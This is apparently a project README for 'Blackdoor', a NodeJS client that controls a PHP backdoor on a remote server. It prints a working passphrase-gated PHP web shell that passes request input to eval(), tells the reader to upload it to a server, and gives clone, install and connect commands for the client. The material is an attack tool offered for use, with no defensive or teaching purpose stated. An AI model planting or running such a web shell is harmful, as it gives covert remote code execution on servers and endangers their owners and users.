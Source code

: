 <img src="imgs/logo.png" alt="Blackdoor logo" width="350px">

Blackdoor is an NodeJS client for a simple `eval()` backdoor in PHP.

## Screenshots

<img src="imgs/cap1.png" height="200px"> <img src="imgs/cap2.png" height="200px">

## How to use

First, upload a PHP backdoor on remote server, like this:

```php
if(isset($_REQUEST['c']) && $_REQUEST['p'] == 'your-passphrase')
eval($_REQUEST['c']);
```

Locally, clone this project and install the dependencies:

```bash
git clone https://github.com/camillebaronnet/blackdoor.git
cd blackdoor
npm install
```

Now, you can connect:
```bash
./blackdoor.js -u http://exemple.com/backdoor.php -p your-passphrase
```

## Existing commands

All commands are available here : [commands/](commands/)

